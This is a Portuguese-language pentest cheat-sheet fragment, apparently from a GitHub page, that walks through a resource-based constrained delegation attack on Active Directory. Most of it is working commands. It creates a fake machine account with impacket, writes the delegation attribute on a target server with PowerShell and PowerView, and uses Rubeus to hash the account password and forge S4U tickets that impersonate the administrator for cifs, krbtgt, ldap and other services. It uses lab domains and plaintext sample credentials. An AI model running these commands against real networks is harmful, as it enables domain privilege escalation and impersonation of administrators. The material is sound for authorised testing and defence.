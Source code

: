 ```
```
OU USAR O IMPACKET
```
impacket-addcomputer -method SAMR -computer-name ATTACKER2$ -computer-pass Password123 purple.lab/pentestlab:Password1234
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - VERIFICAR SE A CONTA FALSA FOI CRIADA
```
Get-ADComputer -identity ATTACKER2 -Properties *
Get-ADComputer -identity ATTACKER2 -Properties * | select Samaccountname, Enabled
```
```
Get-DomainComputer ATTACKER2
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - CONFIGURAR DELEGAÇÃO RBCD NO ALVO PARA NOSSO FALSO COMPUTADOR
```
Set-ADComputer server02 -PrincipalsAllowedToDelegateToAccount ATTACKER2$
```
OU POWERVIEW
```
$ComputerSid = Get-DomainComputer ATTACKER2 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer server02 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - VERIFICAR DELEGAÇÃO RBCD
```
Get-ADComputer server02 -Properties PrincipalsAllowedToDelegateToAccount
Get-ADComputer server02 -Properties PrincipalsAllowedToDelegateToAccount | select samaccountname, PrincipalsAllowedToDelegateToAccount 
Get-ADComputer -Filter * -Properties * | ?{$_.PrincipalsAllowedToDelegateToAccount -ne "$null"} | select samaccountname, PrincipalsAllowedToDelegateToAccount 
```
OU POWERVIEW - VALORES ESTRANHOS
```
Get-DomainComputer server02 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - NO RUBEUS, GERAR O HASH RC4 DA SENHA DO COMPUTADOR FALSO: ATTACKER2 : 32ED87BDB5FDC5E9CBA88547376818D4
```
.\Rubeus.exe hash /password:123456 /user:ATTACKER2$ /domain:tech.local

```
##### RESOURCE-BASED CONSTRAINED DELEGATION - NO RUBEUS, SOLICITAR TGS PARA A MAQUINA QUE TEMOS ACESSO PARA OS SERVICOS AUTORIZADOS NO AD: (cifs/TECH-DC01.TECH.LOCAL)
```
.\rubeus.exe s4u /user:ATTACKER2$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/server02 /domain:tech.local /ptt
.\rubeus.exe s4u /user:ATTACKER2$ /aes256:E1B7610EFD532B94B231C753ADCD74C20B8812F27D8A65D913F4834FE1877E59 /aes128:D99EDC9BAFB9456F2DD3AF994CE99F25 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/server02 /domain:tech.local /ptt
```
SOLICITAR TICKET PARA OUTROS SERVIÇOS
```
.\rubeus.exe s4u /user:ATTACKER2$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/server02 /domain:tech.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```
